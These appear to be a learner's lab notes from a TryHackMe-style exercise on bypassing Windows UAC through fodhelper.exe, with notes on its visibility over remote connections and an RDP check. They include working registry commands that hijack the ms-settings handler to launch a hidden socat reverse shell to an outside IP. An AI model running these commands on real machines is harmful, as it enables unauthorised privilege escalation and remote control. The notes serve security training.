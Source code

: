 
<u>After the execution of the commands</u>:

- "`DelegateExecute`" is empty and the "`Default`" has the value of `socat` to connect back to the reverse shell listener.
![](/assets/img/Pasted image 20230119232554.png)


##### Modifying Execute `fodhelper.exe` using `RDP`:

- Note that on more updated versions of Windows, `fodhelper.exe` is NOT visible from the remote connection.

![](/assets/img/Pasted image 20230520161643.png)

<u>Bypassing UAC</u>:

```powershell
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\Users\noob\Desktop\socat-1.7.3.2-1-i686\socat-1.7.3.2-1-i686\socat.exe TCP:12.0.0.5:4444 EXEC:cmd.exe,pipes"
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f
```

- Reference : `"Bypassing UAC" TryHackMe notes`

- Then, execute `C:\Windows\System32\fodhelper.exe`

		- This is one of the important part since this seems to be invisible from remote connections when enumerating at C:\Windows\System32.

![](/assets/img/Pasted image 20230521190229.png)

**Note: `fodhelper.exe` is NOT visible from the remote connection of the Initial Access. There must be some defense mechanism that makes it impossible to see this executable from a reverse shell connection(remote)**.

![](/assets/img/Pasted image 20230521190453.png)

	- No fodhelper.exe

**Assumption**: `RDP is enabled to begin with but the Attacker with Initial Access has done the Enumeration part of course.`

- Since we are using a reverse shell connection from Metasploit, the Initial Access from the `.hta` file, we will use a ***PowerShell scripting***:

<u>PowerShell Script</u>:

```powershell
if ((Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Terminal Server").fDenyTSConnections -eq 0) { "RDP is enabled" } else { "RDP is disabled" }
```

<u>Output</u>:

![](/assets/img/Pasted image 20230526113655.png)
